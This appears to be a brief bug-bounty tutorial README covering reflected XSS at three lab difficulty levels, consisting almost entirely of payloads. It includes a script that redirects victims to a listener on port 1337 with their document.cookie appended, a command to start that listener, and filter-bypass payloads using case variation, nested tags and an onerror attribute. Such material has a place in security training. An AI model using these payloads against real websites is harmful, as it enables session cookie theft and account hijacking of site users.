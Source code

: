 # bug-bounty-tutorial
bug bounty tutorial

## 17.XSS-(Reflected)

### low
```
python3 -m http.server 1337
<script>window.location='http://127.0.0.1:1337?cookie='+document.cookie</script>
```

### medium 
```
<SCRIPT>window.location='http://127.0.0.1:1337?cookie='+document.cookie</script>
<scr<script>ipt>alert('hacked')</script>
```

### high
```
<image src/onerror=alert(1)>
```
